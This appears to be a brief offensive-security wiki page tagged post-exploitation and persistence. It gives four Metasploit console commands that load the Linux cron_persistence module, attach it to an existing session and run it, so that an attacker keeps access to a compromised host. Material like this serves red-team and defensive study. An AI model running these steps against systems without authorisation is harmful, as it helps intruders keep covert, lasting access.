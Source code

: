 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - metasploit-framework
  - linux
---
```

# C2 Frameworks

## Metasploit

```
msf > use exploits/linux/local/cron_persistence

msf exploit(linux/local/cron_persistence) > options

msf exploit(linux/local/cron_persistence) > set session <session_ID>

msf exploit(linux/local/cron_persistence) > run
```